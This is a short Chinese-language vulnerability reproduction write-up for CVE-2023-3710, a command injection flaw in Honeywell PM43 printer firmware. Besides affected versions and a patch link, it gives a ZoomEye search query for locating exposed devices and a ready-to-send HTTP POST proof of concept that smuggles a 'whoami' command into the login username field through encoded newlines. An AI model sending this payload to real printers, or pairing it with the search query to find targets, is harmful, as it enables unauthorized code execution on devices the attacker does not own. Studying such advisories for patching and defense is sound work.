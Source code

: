 
# Honeywell PM43 loadfile.lp RCE 漏洞复现 (CVE-2023-3710）

### 0x01 产品简介

 Honeywell PM43 是美国霍尼韦尔（Honeywell）公司的一款打印机产品。

### 0x02 漏洞概述

  Honeywell PM43 P10.19.050004 之前版本存在输入验证错误漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 影响范围

Honeywell Pm43\_Firmware < p10.19.050004

### 0x04 复现环境

钟馗之眼：app:"Honeywell PM43"

### ![](assets/1701826215-977e9d67f6b659923a56765a680ab34f.png)0x05 漏洞复现 

PoC

```http
POST /loadfile.lp?pageid=Configure HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded

username=h%0Awhoami%0A&userpassword=pass&login=Login
```

### ![](assets/1701826215-cd20921c279ec068f01bc46e8ba922a4.png) 0x06 修复建议

 厂商已发布了漏洞修复程序，请及时关注更新：https://hsmftp.honeywell.com:443/en/Software/Printers/Industrial/PM23-PM23c-PM43-PM43c/Current/Firmware/firmwaresignedP1019050004
